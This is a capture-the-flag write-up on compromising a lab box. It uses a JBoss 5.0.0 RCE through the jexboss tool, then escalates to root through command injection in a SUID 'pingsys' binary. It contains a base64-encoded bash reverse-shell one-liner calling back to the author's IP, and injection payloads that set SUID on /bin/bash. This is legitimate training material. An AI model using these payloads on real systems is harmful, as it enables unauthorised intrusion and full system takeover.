










## TL;DR

In this challenge we get `RCE` on JBoss application which is running on port `8080`.

Then, we escalate to root using SUID on the binary `/usr/bin/pingsys` which gives us `OS Command Injection`, by this way we get the root shell. 

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see multiple ports opened.
```bash
PORT      STATE SERVICE      REASON         VERSION                                                                                                                                                                                                                                                                        
22/tcp    open  ssh          syn-ack ttl 62 OpenSSH 7.4 (protocol 2.0)                                                                                                                                                                                                                                                     
| ssh-hostkey:                                                                                                                                                                                                                                                                                                             
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)                                                                                                                                                                                                                                                             
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOLOk6ktnJtucoDmXmBrc4H4gGe5Cybdy3jh1VZg+CYg+sZbYXzGi2/JO45cRqYd2NFIq7l+oTsjFgh76qAayKMU4D3+gKaC+U2VL93nCU1SywzvZLLc8MEy7mTHflOm4kZCmycgtJO4tfUhuH64yEP+lv3ENFeH5jgyJcGABF/p44MMSwnvpaLMfOuEGuEhKMPA4c+XAiS3J+sErUbpx6ragGGJAKTpww+arDy11slMsyJgjN6GUjlR0y+P0E4/NsrNHe86GKXJ1G4bfKE
dKOPeTZ+wZMNFDCVNLPHLWUBIgWNQHIgRcXiBvPAvIrrt8gV/+td9C74Bsj0VqEEJnP                                                                                                                                                                                                                                                        
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)                                                                                                                                                                                                                                                            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUtPCeXKNaq6WZlT3PxbZbQmka1bb5I+yBRhUb5tzmf2GEmdDOk6R7MSUlEtzGzQ4GjAWFZG3q7ZcBahg8ur8A=                                                                                                                                                         
|   256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (ED25519)                                                                                                                                                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJI3bQUWzwhk0iJYl+gGn09NgvRLtN4vJ4DG6SrE7/Hb                                                                                                                                                                                                                                         
80/tcp    open  http         syn-ack ttl 62 Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)                                                                                                                                                                                                                                       
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20                                                                                                                                                                                                                                                                     
|_http-title: My first blog                                                                                                                                                                                                                                                                                                
| http-methods:                                                                                                                                                                                                                                                                                                            
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                                                                                                                               
111/tcp   open  rpcbind      syn-ack ttl 62 2-4 (RPC #100000)                                                                                                                                                                                                                                                              
| rpcinfo:                                                                                                                                                                                                                                                                                                                 
|   program version    port/proto  service                                                                                                                                                                                                                                                                                 
|   100000  2,3,4        111/tcp   rpcbind                                                                                                                                                                                                                                                                                 
|   100000  2,3,4        111/udp   rpcbind                                                                                                                                                                                                                                                                                 
|   100000  3,4          111/tcp6  rpcbind                                                                                                                                                                                                                                                                                 
|_  100000  3,4          111/udp6  rpcbind                                                                                                                                                                                                                                                                                 
1090/tcp  open  java-rmi     syn-ack ttl 62 Java RMI                                                                                                                                                                                                                                                                       
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)                                                                                                                                                                                                                                                       
1098/tcp  open  java-rmi     syn-ack ttl 62 Java RMI                                                                                                                                                                                                                                                                       
1099/tcp  open  java-object  syn-ack ttl 62 Java Object Serialization                                                                                                                                                                                                                                                      
| fingerprint-strings:                                                                                                                                                                                                                                                                                                     
|   NULL:                                                                                                                                                                                                                                                                                                                  
|     java.rmi.MarshalledObject|                                                                                                                                                                                                                                                                                           
|     hash[                                                                                                                                                                                                                                                                                                                
|     locBytest                                                                                                                                                                                                                                                                                                            
|     objBytesq                                                                                                                                                                                                                                                                                                            
|     xpbtj                                                                                                                                                                                                                                                                                                                
|     http://jacobtheboss.box:8083/q                                                                                                                                                                                                                                                                                       
|     org.jnp.server.NamingServer_Stub                                                                                                                                                                                                                                                                                     
|     java.rmi.server.RemoteStub                                                                                                                                                                                                                                                                                           
|     java.rmi.server.RemoteObject                                                                                                                                                                                                                                                                                         
|     xpw;                                                                                                                                                                                                                                                                                                                 
|     UnicastRef2                                                                                                                                                                                                                                                             
|_    jacobtheboss.box                                                                                                                                                                       
3306/tcp  open  mysql        syn-ack ttl 62 MariaDB 10.3.23 or earlier (unauthorized)                                                                                                        
3873/tcp  open  java-object  syn-ack ttl 62 Java Object Serialization                                                                                                                        
4444/tcp  open  java-rmi     syn-ack ttl 62 Java RMI                                                                                                                                         
4445/tcp  open  java-object  syn-ack ttl 62 Java Object Serialization                                                                                                                        
4446/tcp  open  java-object  syn-ack ttl 62 Java Object Serialization                                                                                                                        
4457/tcp  open  tandem-print syn-ack ttl 62 Sharp printer tandem printing                                                                                                                    
4712/tcp  open  msdtc        syn-ack ttl 62 Microsoft Distributed Transaction Coordinator (error)                                                                                            
4713/tcp  open  pulseaudio?  syn-ack ttl 62                                                                                                                                                  
| fingerprint-strings:                                                                                                                                                                       
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie
, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:                                                                                                                                     
|_    b22a                                                                                                                                                                                   
8009/tcp  open  ajp13        syn-ack ttl 62 Apache Jserv (Protocol v1.3)
| ajp-methods:                                                                                
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE                                               
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html            
8080/tcp  open  http         syn-ack ttl 62 Apache Tomcat/Coyote JSP engine 1.1               
|_http-server-header: Apache-Coyote/1.1                                                                                                                                                      
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519     
|_http-title: Welcome to JBoss&trade;                                                         
| http-methods:                                                                               
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS             
|_  Potentially risky methods: PUT DELETE TRACE                           
8083/tcp  open  http         syn-ack ttl 62 JBoss service httpd           
|_http-title: Site doesn't have a title (text/html).                      
28817/tcp open  unknown      syn-ack ttl 62                                                   
41565/tcp open  java-rmi     syn-ack ttl 62 Java RMI                      
45610/tcp open  unknown      syn-ack ttl 62
```

I added `jacobtheboss.box` to my `/etc/hosts`

### Exploit JBoss RCE vulnerability to get shell as jacob

I first go to the website at port `80`, nothing too interesting



Then, i went to port `8080` and saw this is JBoss application.


I googled and find this repo [https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss), which have `RCE` exploit for vulnerable version.

we can see at `http://jacobtheboss.box:8080/web-console/` that our version is vulnerable, version 5.0.0.



So, I just downloaded the repo, and executed:
```bash
python jexboss.py -host http://jacobtheboss.box:8080/
```

and we got our reverse shell



I pasted the payload from `penelope` for easier reverse shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```



we can grab the user flag, since we are `jacob`:
```bash
[jacob@jacobtheboss ~]$ cat user.txt 
f4d491f280de360cc49e26ca1587cbcc
```



### Privilege Escalation to Root using SUDI on /usr/bin/pingsys

using linpeas i found the SUID binary `/usr/bin/pingsys`.



I tried to execute this, but it failed:
```bash
[jacob@jacobtheboss /]$ /usr/bin/pingsys
sh: -c: line 0: syntax error near unexpected token `('
sh: -c: line 0: `ping -c 4 (null)'
```

Then, since this is ping, I tried to give it my ip:
```bash
/usr/bin/pingsys 192.168.132.168
```

on my local machine i set the listenrer:
```bash
sudo tcpdump -i tun0 icmp
```



Okay, let's try to get `OS Command Injection`, something like this:
```bash
/usr/bin/pingsys '192.168.132.168;id'
```
as you can see, it worked and we got `id` command as root.



Okay, let execute this command to add SUID on `/bin/bash`:
```bash
/usr/bin/pingsys '192.168.132.168;chmod u+s /bin/bash'
```

then, we can execute:
```bash
bash -p
```

and grab the root flag:
```bash
bash-4.2# cat /root/root.txt
29a5641eaa0c01abe5749608c8232806
```




